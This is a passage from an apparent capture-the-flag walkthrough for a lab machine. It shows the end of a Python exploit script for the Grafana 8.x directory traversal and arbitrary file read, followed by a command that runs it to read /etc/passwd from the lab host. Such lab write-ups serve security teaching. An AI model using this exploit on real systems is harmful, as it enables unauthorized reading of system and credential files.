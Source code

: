 ```python
        prep = req.prepare()
        prep.url = url
        r = s.send(prep, verify=False, timeout=3)

        if 'Plugin file not found' in r.text:
            print('[-] File not found\n')
        else:
            file = args.file.split("/")[-1]
            if r.status_code == 200:
                with open(file, "wb") as f:
                    print(f"Writing to {file}")
                    f.write(r.content)
            else:
                print("Error")
                print(r.status_code)
                print(r.text)
    except requests.exceptions.ConnectTimeout:
        print('[-] Request timed out. Please check your host settings.\n')
        return
    except Exception:
        pass

def main():
    parser = argparse.ArgumentParser(description="Grafana V8.0.0-beta1 - 8.3.0 - Directory Traversal and Arbitrary File Read")
    parser.add_argument('-H',dest='host',required=True, help="Target host")
    parser.add_argument('-F', dest='file', required=True, help='File to read')
    args = parser.parse_args()

    try:
        exploit(args)
    except KeyboardInterrupt:
        return


if __name__ == '__main__':
    main()
    sys.exit(0)
```

Let's test our exploit with standard `/etc/passwd`.

```bash
python 50581.py -H 'http://ambassador.htb:3000' -F '/etc/passwd'
```
